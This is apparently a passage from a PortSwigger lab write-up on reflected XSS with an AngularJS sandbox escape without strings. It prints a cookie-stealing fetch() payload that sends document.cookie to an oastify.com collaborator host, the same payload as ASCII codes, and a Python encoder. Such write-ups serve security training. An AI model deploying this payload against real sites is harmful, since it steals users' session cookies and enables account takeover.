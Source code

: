 >Collaborator payload ***cookie stealer***:  

```
x=fetch('https://m9w8haeauh0frftrtjdvexkyrpxgl69v.oastify.com/?z='+document.cookie)
```

>The ASCII decimal values for each character in the above payload string, separated by commas. Each number represents the ASCII decimal value of the corresponding character in the payload string.  

```
120,61,102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,103,112,57,111,49,56,57,51,106,97,107,49,100,122,101,55,117,116,118,50,114,107,118,114,48,105,54,57,117,122,105,111,46,111,97,115,116,105,102,121,46,99,111,109,47,63,122,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41
```  

>Python script to convert any payload to ASCIII decimal values:  

```python
import sys

print('Python String to ASCII Converter!')
if len(sys.argv) != 2:
    print("Usage: Python ascii_converter.py 'Payload_String'")
    sys.exit(1)

input_string = sys.argv[1]
ascii_values = [str(ord(char)) for char in input_string]

output = ",".join(ascii_values)
print(output)
print('PortSwigger Expert Academy Labs!')
```  

![python-script-ascii_converter.png](/images/python-script-ascii_converter.png)  

>Cookie Stealer Payload in ASCII decimal value AngularJS expression run through sandbox, from the PortSwigger solution steps:

1. The exploit uses `toString()` to create a string without using quotes.
2. Then gets the String prototype and overwrites the `charAt` function for every string.
3. This breaks the AngularJS sandbox. allow an array passed to the `orderBy` filter.
4. Set the argument for the filter by again using `toString()` to create a string and the String constructor property.
5. Finally, use the `fromCharCode` method generate our payload by converting character codes into the payload example `x=alert(1)`.  
6. The `charAt` function has been overwritten, AngularJS will allow this code to escape the **Sandbox**.  

![angularJS-sandbox-escape-cookie-stealer](/images/angularJS-sandbox-escape-cookie-stealer.png)  

>[PortSwigger Expert Lab: Reflected XSS with AngularJS sandbox escape without strings](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings)  

### XSS Template Literal  
